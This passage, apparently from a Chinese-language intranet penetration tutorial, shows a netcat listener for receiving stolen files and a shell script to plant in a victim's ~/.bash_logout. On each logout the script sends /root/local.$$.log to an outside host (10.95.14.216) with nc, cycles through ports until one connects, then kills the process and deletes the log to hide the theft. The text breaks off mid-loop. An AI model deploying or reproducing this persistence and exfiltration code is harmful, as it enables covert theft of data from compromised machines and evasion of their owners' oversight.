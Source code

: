 ![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/e1581fa6becf5a53d7a5139ccbf46b23.png)

监听接收文件:

nc -lvp 8888 \> local.log

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/7122dc15413d3b5fd375775c88aa5bf0.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/d9fbe144a34a10b01acb5f774d438f2c.png)

实战阶段\~/.bash_logout:

\#将以下内容放到\~/.bash_logout文件中

\#(nc 10.95.14.216 8888 \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

num=8888

((nc 10.95.14.216 \$num \< /root/local.\$\$.log 2\>&1 \| grep refused \>
tmp\$\$) &) && echo 1 \>& /dev/null

output=\$(cat tmp\$\$)

if [[ \$output = "" ]]

then

pid=\$(ps -ef \| grep "nc 10.95.14.216 \$num" \| awk '{print \$2}' \| head -n 1)

kill -9 \$pid

rm -f tmp\$\$

(nc 10.95.14.216 \$num \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

else

while true;

do

num=\$[\$num+1]

((nc 10.95.14.216 \$num \< /root/local.\$\$.log 2\>&1 \| grep refused \>
tmp\$\$) &) && echo 1 \>& /dev/null

output=\$(cat tmp\$\$)

if [[ \$output = "" ]]

then

pid=\$(ps -ef \| grep "nc 10.95.14.216 \$num" \| awk '{print \$2}' \| head -n 1)

kill -9 \$pid

rm -f tmp\$\$

(nc 10.95.14.216 \$num \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

break

else
